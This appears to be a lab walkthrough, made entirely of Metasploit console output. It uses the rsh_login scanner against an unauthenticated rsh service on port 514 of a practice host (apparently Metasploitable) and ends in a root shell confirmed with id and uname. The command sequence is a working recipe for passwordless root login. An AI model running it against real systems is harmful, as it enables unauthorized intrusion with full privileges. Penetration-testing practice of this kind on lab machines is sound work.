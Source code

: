 <pre>514/tcp  open  tcpwrapped</pre>

<pre>msf6 > search rsh_login</pre>

<pre>Matching Modules
================

   #  Name                                   Disclosure Date  Rank    Check  Description
   -  ----                                   ---------------  ----    -----  -----------
   0  auxiliary/scanner/rservices/rsh_login  .                normal  No     rsh Authentication Scanner


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/rservices/rsh_login</pre>

<pre>msf6 > use 0</pre>

<pre>msf6 auxiliary(scanner/rservices/rsh_login) > show options</pre> 

<pre>Module options (auxiliary/scanner/rservices/rsh_login):

   Name              Current Setting                                                 Required  Description
   ----              ---------------                                                 --------  -----------
   ANONYMOUS_LOGIN   false                                                           yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS   false                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                               yes       How fast to bruteforce, from 0 to 5
   CreateSession     true                                                            no        Create a new session for every successful login
   DB_ALL_CREDS      false                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                           no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                            no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   ENABLE_STDERR     false                                                           yes       Enables connecting the stderr port
   FROMUSER                                                                          no        The username to login from
   FROMUSER_FILE     /usr/share/metasploit-framework/data/wordlists/rservices_from_  no        File containing from usernames, one per line
                     users.txt
   PASSWORD                                                                          no        A specific password to authenticate with
   PASS_FILE                                                                         no        File containing passwords, one per line
   RHOSTS                                                                            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             514                                                             yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                                           yes       Stop guessing when a credential works for a host
   THREADS           1                                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                                          no        A specific username to authenticate as
   USERPASS_FILE                                                                     no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                           no        Try the username as the password for all users
   USER_FILE                                                                         no        File containing usernames, one per line
   VERBOSE           true                                                            yes       Whether to print output for all attempts</pre>


<pre>msf6 auxiliary(scanner/rservices/rsh_login) > set rhosts A.B.C.D</pre>

<pre>msf6 auxiliary(scanner/rservices/rsh_login) > set username root</pre>

<pre>msf6 auxiliary(scanner/rservices/rsh_login) > run</pre>

<pre>[*] A.B.C.D:514   - A.B.C.D:514 - Starting rsh sweep
[*] A.B.C.D:514   - A.B.C.D:514 - Attempting rsh with username 'root' from 'root'
[+] A.B.C.D:514   - A.B.C.D:514, rsh 'root' from 'root' with no password.
[!] A.B.C.D:514   - No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (0.0.0.0:1023 ->  A.B.C.D:514 ) at 2025-02-05 02:33:42 +0530
[*] A.B.C.D:514   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed</pre>

<pre>msf6 auxiliary(scanner/rservices/rsh_login) > sessions </pre>

<pre>Active sessions
===============

  Id  Name  Type   Information                               Connection
  --  ----  ----   -----------                               ----------
  1         shell  RSH root from root ( A.B.C.D:514)         0.0.0.0:1023 ->  A.B.C.D:514 ( A.B.C.D)</pre>

<pre>msf6 auxiliary(scanner/rservices/rsh_login) > sessions 1</pre>

<pre>[*] Starting interaction with 1...

Shell Banner:
sh: no job control in this shell
sh-3.2#
-----
          
sh-3.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-3.2# uname -r
2.6.24-16-server
sh-3.2# uname
Linux
sh-3.2# uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
sh-3.2# 
</pre>
